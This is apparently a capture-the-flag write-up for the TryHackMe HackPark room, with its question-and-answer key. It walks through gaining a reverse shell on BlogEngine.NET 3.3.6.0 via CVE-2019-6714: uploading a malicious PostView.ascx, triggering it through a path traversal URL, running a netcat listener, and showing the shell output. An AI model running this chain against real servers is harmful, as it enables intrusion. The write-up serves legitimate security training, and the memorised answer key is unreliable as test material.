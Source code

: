 ## Exploiting BlogEngine.NET

We successfuly brute-forced the login page ! Now let's use the crendentials we just found and see what other useful pages we 
can access on the website :  
![](https://i.imgur.com/INkmCz1.jpg)  

We have now access to the admin panel. Let's take a look at the "About" tab to see if we can 
find useful informations :  
![](https://i.imgur.com/XJWk03C.jpg)  

We now know that BlogEngine.NET 3.3.6.0 is installed on the website.  
**Question : Now you have logged into the website, are you able to identify the version of the BlogEngine ?**  
**Answer : 3.3.6.0**  

Now, we can search for BlogEngine 3.3.6 on [Exploit-DB](https://www.exploit-db.com/). We can see there is an exploit for BlogEngine.NET 3.3.6 that leads to a Remote Code Execution :  
![](https://i.imgur.com/GtkL9To.jpg)  

**Question : What is the CVE ?**  
**Answer : CVE-2019-6714**  

Before we use this exploit, we need to change the TcpClient address and port :  
![](https://i.imgur.com/d0SkFF0.jpg)  

We need to rename our malicious file to `PostView.ascx`, and then we can ulpoad the malicious file to the website.  
First we need to go to `/admin/app/editor/editpost.html` :  
![](https://i.imgur.com/mzFNq7L.jpg)

Then we can upload our malicious file by clicking on the `File Manager` button :  
![](https://i.imgur.com/02YsksD.jpg)

Now, we can set up a netcat listener on our local machine with `nc -lnvp 4242` and then navigate to `http://[TARGET_IP]/?theme=../../App_Data/files`:  
```
attacker@AttackBox:~/Documents/THM/CTF/HackPark$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.31.20] from (UNKNOWN) [10.10.140.141] 49314
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

And we have a reverse shell as `iis apppool\blog` !

**Question : Who is the webserver running as ?**  
**Answer : iis apppool\blog**
